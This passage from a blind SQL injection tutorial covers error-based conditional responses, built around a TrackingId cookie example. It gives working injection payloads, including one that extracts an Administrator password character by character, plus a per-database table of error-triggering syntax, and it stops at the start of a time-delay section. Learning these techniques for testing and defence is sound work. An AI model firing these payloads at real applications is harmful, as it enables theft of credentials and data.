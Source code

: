 ### Triggering SQL errors

If the page does not behave any differently depending on whether the query returns any data, then you have to change method: it is often possible to induce the application to return conditional responses by triggering SQL errors.

What I mean is that you can different data in your HTTP response, based on conditions that trigger a SQL error, e.g. division by zero (assuming the error causes some difference in the application's HTTP response).

For example, in the case of the the previous example (regarding the cookie `TrackingId`):

```txt
# the condition is: 'WHEN (1=2)'
# if the condition is true, then divide by 0
# this will NOT trigger an error (since 1 is not equal to 2)
xyz' UNION SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END--

# the condition is: WHEN (1=1)
# if the condition is true, then divide by 0
# this will trigger an error
xyz' UNION SELECT CASE WHEN (1=1) THEN 1/0 ELSE NULL END--
```

Using this technique, you can retrieve data testing one character at a time:

```txt
xyz' union select case when (username = 'Administrator' and SUBSTRING(password, 1, 1) > 'm') then 1/0 else null end from users-- 
```

Bear in mind that the technique to trigger an error can change based on the type of database:

| Database   | Technique                                                                             |
| ---------- | ------------------------------------------------------------------------------------- |
| Oracle     | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual      |
| Microsoft  | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END                         |
| PostgreSQL | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END           |
| MySQL      | SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') |

### Triggering time delays

If the application catches database errors and handles them gracefully, and there's no longer  any difference in the application's response, then the the previous technique won't work.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays, based on conditions.

Usually it works because SQL queries are generally processed synchronously by the application. Therefore, delaying the execution of an SQL query will also delay the HTTP response.

The techniques for triggering a time delay are highly specific to the type of database being used. In the case of SQL Server:
